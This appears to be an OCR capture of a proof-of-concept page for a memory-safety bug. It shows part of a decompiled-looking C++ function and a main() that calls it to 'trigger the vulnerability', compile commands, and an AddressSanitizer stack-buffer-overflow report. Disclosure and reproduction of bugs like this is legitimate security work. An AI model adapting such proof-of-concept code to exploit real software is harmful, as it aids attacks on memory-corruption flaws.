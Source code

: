 ```c++
        uVar1 = uVar1 >> 5;
    }
    else {
        // Set the result to 0 if the values are not equal.
        uVar1 = 0;
    }

    return uVar1;
}

// The main function that triggers the vulnerability.
int main() {
    int x = 0x12345678;
    int *p1 = &x;
    int *p2 = &x;

    // Call the vulnerable function with the pointers.
    uint32_t result = FUN_00012d98(&p1, p2);

    if (result == 0) {
        // The vulnerability is not triggered.
        std::cerr << "Memory error: the vulnerability is not triggered\n";
    }
    else {
        // The vulnerability is triggered.
        std::cout << "The vulnerability is triggered with result: " << result << "\n";
    }

    return 0;
}
```

```bash

$ g++ poc.cpp -fsanitize=address -static-libasan -g

$ ./poc


==3898500==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7fffb469c6a4 at pc 0x56086a885fb1 bp 0x7fffb469c620 sp 0x7fffb469bdd0
READ of size 5 at 0x7fffb469c6a4 thread T0                                                                                                                                                                                                  
    #0 0x56086a885fb0 in __interceptor_strlen.part.0 (/home/kali/test_tick/a.out+0x2efb0)
    #1 0x56086a93c01e in FUN_00012d98(int**, int*) /home/kali/test_tick/poc.cpp:20
    #2 0x56086a93c13e in main /home/kali/test_tick/poc.cpp:41
    #3 0x7fe2cd167189 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #4 0x7fe2cd167244 in __libc_start_main_impl ../csu/libc-start.c:381
    #5 0x56086a8603a0 in _start (/home/kali/test_tick/a.out+0x93a0)

Address 0x7fffb469c6a4 is located in stack of thread T0 at offset 52 in frame
    #0 0x56086a93c050 in main /home/kali/test_tick/poc.cpp:35

  This frame has 2 object(s):
    [48, 52) 'x' (line 36) <== Memory access at offset 52 overflows this variable
    [64, 72) 'p1' (line 37)
HINT: this may be a false positive if your program uses some custom stack unwind mechanism, swapcontext or vfork
      (longjmp and C++ exceptions *are* supported)
SUMMARY: AddressSanitizer: stack-buffer-overflow (/home/kali/test_tick/a.out+0x2efb0) in __interceptor_strlen.part.0
Shadow bytes around the buggy address:
  0x1000768cb880: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```